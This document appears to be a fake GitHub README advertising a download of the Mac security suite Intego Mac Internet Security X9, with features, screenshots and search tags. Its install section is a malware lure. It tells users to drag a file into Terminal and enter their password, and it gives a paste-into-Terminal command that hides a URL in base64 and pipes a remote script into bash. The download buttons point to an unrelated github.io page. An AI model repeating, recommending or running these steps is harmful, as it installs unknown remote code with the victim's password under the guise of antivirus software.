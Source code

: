 # 🛡️ Intego Mac Internet Security X9 — Comprehensive Protection for macOS

**Intego Mac Internet Security X9** is a powerful antivirus and firewall suite designed specifically for macOS. It offers robust real-time malware protection combined with a smart firewall to keep your Mac safe from viruses, spyware, ransomware, and network threats.

Tailored to take full advantage of macOS and Apple Silicon, Intego delivers fast, efficient security without slowing down your MacBook or iMac.

---

## ✅ Download Intego Mac Internet Security X9  
[![Download Intego](https://img.shields.io/badge/Download-Intego-blueviolet)](https://shuziktobehuman.github.io/huja/intego)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)




## 🛡️ What is Intego Mac Internet Security X9?

Intego Mac Internet Security X9 combines award-winning antivirus technology with a powerful firewall, providing comprehensive protection for macOS users. It offers automatic virus scans, real-time monitoring, and network security tools to protect your data and privacy.

Designed exclusively for Mac, Intego ensures minimal system impact while keeping your device secure from emerging threats.

---

## ✨ Features

- 🔍 Real-time antivirus and malware detection  
- 🔥 NetBarrier smart firewall with customizable rules  
- 🛡 Ransomware protection and removal  
- ⚡️ Optimized for **macOS Ventura** and **Apple Silicon (M1/M2/M3)**  
- 🔄 Automatic virus definition updates  
- 📊 Detailed security reports and alerts  
- 🧰 Easy setup with intuitive control panel  
- 🖥 Full compatibility with the latest Mac hardware and software  

---

## 💡 Why Use Intego Mac Internet Security X9?

- 🧩 Dedicated Mac antivirus and firewall solution  
- 🚀 Lightweight protection designed for macOS  
- 🔒 Protects against malware, phishing, and network attacks  
- 🛡 Keeps your Mac safe without interrupting your workflow  
- 🔄 Continuous updates ensure up-to-date defense  

---

[![Download Intego](https://img.shields.io/badge/Download-Intego-blueviolet)](https://shuziktobehuman.github.io/huja/intego)

---


## 🖼 Preview

![Intego Screenshot 1](https://i.pcmag.com/imagery/reviews/01TVV3MW3XO2AoxZXgTKbbB-22..v1745599236.png), ![Intego Screenshot 2](https://i.pcmag.com/imagery/reviews/01TVV3MW3XO2AoxZXgTKbbB-27.fit_lim.size_1050x.png)

---

## 📌 Tags

intego mac internet security x9  
intego mac internet security  
intego mac premium bundle x9  
mac internet security x9  
intego x9  
intego net barrier  
intego internet security for mac  
intego mac internet security download  
intego antivirus mac  
mac firewall intego  
intego security suite mac  
intego malware protection mac  
mac internet security software  
intego real-time protection  
intego for macbook pro  
intego virus scanner mac  
mac security app intego  
apple silicon antivirus intego  
mac network security intego  
intego full version mac  
